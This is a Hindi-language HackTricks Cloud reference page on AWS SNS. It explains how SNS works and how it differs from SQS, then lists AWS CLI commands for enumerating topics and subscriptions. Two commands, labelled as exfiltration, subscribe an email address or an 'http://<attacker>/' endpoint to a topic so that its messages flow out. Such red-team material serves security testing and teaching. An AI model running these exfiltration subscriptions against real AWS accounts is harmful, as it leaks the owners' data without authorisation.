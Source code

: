 # AWS - SNS Enum

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में** दिखाया जाए या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** पर **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## SNS

अमेज़न सिम्पल नोटिफिकेशन सर्विस (Amazon SNS) को एक **पूरी तरह से प्रबंधित संदेश सेवा** के रूप में वर्णित किया गया है। यह **एप्लिकेशन-टू-एप्लिकेशन** (A2A) और **एप्लिकेशन-टू-पर्सन** (A2P) संचार प्रकार दोनों का समर्थन करता है।

A2A संचार के लिए मुख्य विशेषताएं में **प्रकाशित/सब्सक्राइब (पब/सब)** तंत्र शामिल हैं। ये तंत्र **विषयों** को पेश करते हैं, जो उच्च-संचार, **पुश-आधारित, बहुत-से-बहुत संदेश** को संभावित करने के लिए महत्वपूर्ण हैं। यह सुविधा वितरित सिस्टम, माइक्रोसर्विसेज, और घटना-निर्देशित सर्वरलेस वास्तुकला सम्मिलित स्थितियों में अत्यधिक लाभकारी है। इन विषयों का उपयोग करके प्रकाशक सिस्टम संदेशों को एक **विस्तृत श्रोता सिस्टम** में प्रभावी ढंग से वितरित कर सकते हैं, जो एक फैनआउट संदेश पैटर्न को सुविधाजनक बनाता है।

### **SQS के साथ अंतर**

**SQS** एक **कतार-आधारित** सेवा है जो बिंदु-से-बिंदु संचार को सुनिश्चित करती है, यह सुनिश्चित करती है कि संदेश को **एकल उपभोक्ता** द्वारा प्रसंस्कृत किया जाता है। यह **कम से कम एक बार वितरण** प्रदान करती है, मानक और FIFO कतारों का समर्थन करती है, और पुन: प्रयास और विलंबित प्रसंस्करण के लिए संदेश रिटेंशन की अनुमति देती है।\
दूसरी ओर, **SNS** एक **प्रकाशित/सब्सक्राइब-आधारित सेवा** है, जो **एक-से-बहुत** संचार को संभावित करती है, संदेशों को **एक से अधिक सब्सक्राइबर्स** को समय-समय पर प्रसारित करके। यह **ईमेल, एसएमएस, लैम्बडा फंक्शन्स, और HTTP/HTTPS** जैसे विभिन्न सब्सक्रिप्शन अंत-बिंदु का समर्थन करती है, और लक्षित संदेश प्रसारण के लिए फ़िल्टरिंग तंत्र प्रदान करती है।\
जबकि दोनों सेवाएं वितरित सिस्टम में घटकों के बीच अलगाव को संभावित करती हैं, SQS केंद्रित संचार पर ध्यान केंद्रित है, और SNS घटना-निर्देशित, फैन-आउट संचार पैटर्न पर जोर देती है।

### **गणना**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सब्सक्राइबर का उपयोग किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता है)।

इसके अलावा, यदि `--topic-arn` में क्षेत्र शामिल है तो सुनिश्चित करें कि आप **`--region`** में सही क्षेत्र निर्दिष्ट करते हैं या तो आपको पहुंच की अनुमति नहीं है लेकिन समस्या क्षेत्र में है जैसा कि इसे सूचित करता है।
{% endhint %}

#### अप्रमाणित पहुंच

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### प्रिविलेज उन्नति

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### स्थिरता

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## संदर्भ

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकिंग ट्रिक्स को पीआर के माध्यम से **HackTricks** और **HackTricks Cloud** github रेपो में सबमिट करके।

</details>
